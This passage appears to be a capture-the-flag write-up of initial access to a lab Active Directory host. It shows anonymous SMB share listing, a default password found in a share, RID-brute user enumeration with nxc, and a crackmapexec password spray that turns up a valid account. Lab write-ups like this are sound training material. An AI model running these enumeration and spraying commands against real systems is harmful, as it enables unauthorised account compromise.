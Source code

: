 

## Initial Access

### SMB Shares enum

```bash
smbclient -L //10.10.178.64 -N
smbclient -N //10.10.178.64/Data
```

In this share we found 3 files. 2 pdf file and 1 txt contains this.

{% code overflow="wrap" %}
```bash
cat 11t0pmx3.ktr.txt

Subject: Welcome to Reset -�Dear <USER>,Welcome aboard! We are thrilled to have you join our team. As discussed during the hiring process, we are sending you the necessary login information to access your company account. Please keep this information confidential and do not share it with anyone.The initial passowrd is: ResetMe123!We are confident that you will contribute significantly to our continued success. We look forward to working with you and wish you the very best in your new role.Best regards,The Reset Team.
```
{% endcode %}

There is a default password that we can use to perform a password spray attack.

```
ResetMe123!
```

### SMB user enum / Pass Spray

With Guest account and nx tool we can enumerate all AD user.

{% code overflow="wrap" %}
```bash
nxc smb 10.10.178.64 -u 'anonymous' -p '' --rid-brute > user_group_ad.txt

grep 'SidTypeUser' user_group_ad.txt | grep -oE '[A-Za-z0-9_-]+\\[A-Za-z0-9 _-]+' > domain_user_ad.txt
```
{% endcode %}

With this file and the password try to perform password spray attack

{% code overflow="wrap" %}
```bash
crackmapexec smb 10.10.178.64 -u domain_user_ad.txt -p 'ResetMe123!' --continue-on-success

# output
[..snip..]
SMB         10.10.178.64    445    HAYSTACK         [+] THM\LILY_ONEILL:ResetMe123! 
[..snip..]
```
{% endcode %}
